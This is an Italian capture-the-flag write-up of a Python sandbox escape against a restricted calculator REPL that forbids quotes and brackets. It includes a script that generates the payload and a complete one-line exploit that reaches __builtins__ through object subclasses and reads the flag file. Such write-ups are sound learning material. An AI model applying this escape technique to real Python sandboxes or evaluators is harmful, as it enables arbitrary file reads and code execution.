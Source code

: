 # PyCalcolatrice 2.0 (`calc2`)

Collegandosi al `nc` ci si trova davanti alla stessa interfaccia di `calc1`, anche se le
funzionalità sono più limitate a causa della mancanza di SymPy.

![La REPL](repl.png)

Analizzando lo script, vengono impostati gli stessi limiti di `calc1`, ma più stringenti, perché
senza SymPy bastano meno risorse:
- Il tempo massimo di utilizzo della CPU è sceso a 1 secondo;
- La quantità massima di memoria è scesa a 16 MB.

Valgono le stesse considerazioni di [`calc1`](../../calc1/writeup/) e l'obiettivo è sempre quello di
riuscire a ottenere i `builtins` di Python per leggere la flag, ma ci sono alcune limitazioni in più:
- Non ci sono funzioni di librerie esterne come SymPy che si possano sfruttare;
- Non si possono usare virgolette, quindi non si possono scrivere stringhe (almeno sembra);
- Non si possono usare parentesi quadre o graffe, quindi non si possono scrivere strutture dati come
  liste e dizionari (almeno sembra, ancora una volta).

Si può immaginare che esistano molte soluzioni tutte diverse, ma devono tutte partire da un oggetto
e un modo per ottenerne uno (probabilmente l'unico rimasto) è creare una tupla con `()`. Da questo
punto in poi seguo un percorso personale, lasciandomi un po' ispirare da un writeup di una vecchia
challenge [che ha qualche caratteristica in comune](https://blog.delroth.net/2013/03/escaping-a-python-sandbox-ndh-2013-quals-writeup/).

Ispeziono le poche classi rimaste a disposizione nell'ambiente Python attuale (qualcuna rimane
sempre), prendendo le sottoclassi di `object`, che è la superclasse di `tuple`:

```python
>>> ().__class__.__base__.__subclasses__()
[<class 'type'>, <class 'async_generator'>, ...]
```

Applicando lo stesso principio usato per `calc1`, posso cercare un metodo di una di queste classi
che, in quanto funzione, abbia l'attributo `__builtins__`. Effettuando la ricerca in locale:

```python
>>> for c in object.__subclasses__():
...   for a in vars(c):
...     try:
...       if hasattr(getattr(c, a), "__builtins__"): print(c, a)
...     except AttributeError: pass
...
<class '_frozen_importlib._ModuleLock'> __init__
<class '_frozen_importlib._ModuleLock'> has_deadlock
...
```

`_frozen_importlib._ModuleLock` è disponibile nell'ambiente della challenge, all'indice 116, quindi
scrivendo `().__class__.__base__.__subclasses__().__getitem__(116).__init__.__builtins__` ho i
`builtins`, sempre sotto forma di dizionario. Come faccio, però, a costruire le stringhe `"open"` e
`"flag"`?

**Fun fact #1:** In Python ogni funzione (e quindi ogni metodo e ogni classe) ha un attributo
`__name__`, il cui valore è una stringa con il nome.

Ciò significa che posso costruire una stringa concatenando singoli caratteri, presi da `__name__` di
funzioni opportunamente considerate, ma per accedere a un carattere di una stringa servono le
parentesi quadre... o forse se ne può fare a meno?

**Fun fact #2:** in Python molti operatori in realtà corrispondono a delle chiamate a metodi
["speciali"](https://docs.python.org/3/reference/datamodel.html#special-method-names), così una
classe può personalizzare il proprio comportamento rispetto a un operatore implementando il metodo
corrispondente. Per esempio, `"Al" + "berto"` viene tradotto in `"Al".__add__("berto")` ed è la
classe `str` a definire il metodo `__add__(self, other)` per concatenare effettivamente le stringhe.

Nel mio caso, quindi, `object[key]` si traduce in
[`object.__getitem__(key)`](https://docs.python.org/3/reference/datamodel.html#object.__getitem__),
che mi serve anche per accedere a `open` nel dizionario dei `builtins`. Per scrivere `"open"` e
`"flag"`, creo in locale una funzione Python che mi genera il codice più corto possibile per
costruire queste stringhe:

```python
>>> methods = dir(())
>>> def build(s):
...   return "+".join(f"().{m}.__name__.__getitem__({m.index(c)})" for c, m in ((c, min((m for m in methods if c in m), key=len)) for c in s))
...
>>> build("open")
'().count.__name__.__getitem__(1)+().__repr__.__name__.__getitem__(4)+().index.__name__.__getitem__(3)+().count.__name__.__getitem__(3)'
>>> build("flag")
'().__format__.__name__.__getitem__(2)+().__le__.__name__.__getitem__(2)+().__add__.__name__.__getitem__(2)+().__ge__.__name__.__getitem__(2)'
```

A questo punto l'exploit finale diventa:

![Exploit](exploit.png)

Flag: `rossiCTF{dUnD3r5_4r3_7h3_N3w_M47h!1!_de87b2}`

**Extra:** L'exploit è lungo 374 caratteri, ma si può ridurre a 358 trasformando alcune parti
ripetute in parametri di una lambda che viene chiamata al volo:

```python
(lambda t,c:t.__class__.__base__.__subclasses__().__getitem__(116).__init__.__builtins__.__getitem__(c(1)+t.__repr__.__name__.__getitem__(4)+t.index.__name__.__getitem__(3)+c(3))(t.__format__.__name__.__getitem__(2)+t.__le__.__name__.__getitem__(2)+t.__add__.__name__.__getitem__(2)+t.__ge__.__name__.__getitem__(2)).read())((),().count.__name__.__getitem__)
```
